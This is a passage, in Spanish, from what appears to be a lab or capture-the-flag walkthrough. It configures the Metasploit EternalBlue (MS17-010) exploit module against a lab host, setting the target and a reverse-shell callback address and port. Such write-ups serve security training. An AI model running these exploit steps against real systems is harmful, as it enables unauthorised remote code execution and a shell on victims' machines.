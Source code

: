 Entre los módulos encontrados, el más conocido es:

```bash
exploit/windows/smb/ms17_010_eternalblue
```

### 🛠️ Configuración del exploit

3. **Seleccionamos el módulo**:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

![](../img/22eff44c097a48e25165bcd5decbfbc7.png)

**Revisamos las opciones disponibles y establecemos los valores necesarios**:

```bash
set RHOSTS 10.10.10.40
set LHOST <tu IP tun0 o VPN>  # en tu caso fue 10.10.14.6
set LPORT 4444
```

![](../img/0babd09996d4414f391561497fcae8fe.png)
